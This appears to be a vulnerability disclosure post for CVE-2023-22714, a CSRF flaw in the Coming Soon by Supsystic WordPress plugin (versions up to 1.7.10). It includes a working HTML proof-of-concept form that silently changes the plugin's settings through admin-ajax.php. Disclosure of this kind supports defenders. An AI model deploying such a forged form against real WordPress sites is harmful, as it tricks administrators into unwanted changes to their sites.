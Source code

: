 ```yaml
---
title: "CVE-2023-22714 - Coming Soon by Supsystic <= 1.7.10 Cross Site Request Forgery"
excerpt: "WordPress Coming Soon by Supsystic Plugin <= 1.7.10 is vulnerable to Cross Site Request Forgery (CSRF)
"
categories:
  - CVE
tags:
  - CSRF
toc: true
toc_label: "Table of Content"
toc_icon: "cogs"
toc_sticky: true
header:
  og_image: https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbOXTOzyP38C5gujtHrLbCF57UVQcuaH13ZzrJwSpzx5er0c9-iXru_TQ2nZ2EhS4d2KJYnHoOaQSBXMERW0ysUFanp1xtppyzZVuidfB7XHqjUPg8t1mQwTOQAlw2obfyH5O-NOUjo_y2o7NiyfmrAGF5gJ4h-wUClUCcd7lNh9mxNVrGhJeCbcQVfA/s700
---
```


![CVE-2023-22714](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbOXTOzyP38C5gujtHrLbCF57UVQcuaH13ZzrJwSpzx5er0c9-iXru_TQ2nZ2EhS4d2KJYnHoOaQSBXMERW0ysUFanp1xtppyzZVuidfB7XHqjUPg8t1mQwTOQAlw2obfyH5O-NOUjo_y2o7NiyfmrAGF5gJ4h-wUClUCcd7lNh9mxNVrGhJeCbcQVfA/s700)

## Details
Detail about software affected by CVE-2023-22714.

| Parameter   | Description |
| ------------| ------------|
| Software | Coming Soon by Supsystic |
| Type | WordPress Plugin |
| Vulnerable Version | <= 1.7.10 |
| Classification | Cross Site Request Forgery (CSRF) |
| Required privilege | Unauthenticated |
| Publicly disclosed | 19.01.2023 |
| Plugin URL | https://wordpress.org/plugins/coming-soon-by-supsystic/ |

## Researcher
This vulnerability was discovered by [@yuyudhn](https://github.com/yuyudhn).

## Description
yuyudhn discovered and reported this Cross Site Request Forgery (CSRF) vulnerability in WordPress Coming Soon by Supsystic Plugin. This could allow a malicious actor to force higher privileged users to execute unwanted actions under their current authentication. For example a password change which will then allow the malicious actor to login into the admin account. This vulnerability has not been known to be fixed yet.

## Proof of Concept
CSRF Update Settings:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="opt&#95;values&#91;cs&#95;mode&#93;" value="dsbl" />
      <input type="hidden" name="opt&#95;values&#91;exclude&#95;or&#95;show&#95;links&#93;" value="CSRF&#32;Change&#32;Value" />
      <input type="hidden" name="mod" value="options" />
      <input type="hidden" name="action" value="saveGroup" />
      <input type="hidden" name="pl" value="scs" />
      <input type="hidden" name="reqType" value="ajax" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## References
- [CVE-2023-22714 - Patchstack](https://patchstack.com/database/vulnerability/coming-soon-by-supsystic/wordpress-coming-soon-by-supsystic-plugin-1-7-10-cross-site-request-forgery-csrf-vulnerability)
- [CVE-2023-22714 - CVE.org](https://www.cve.org/CVERecord?id=CVE-2023-22714)
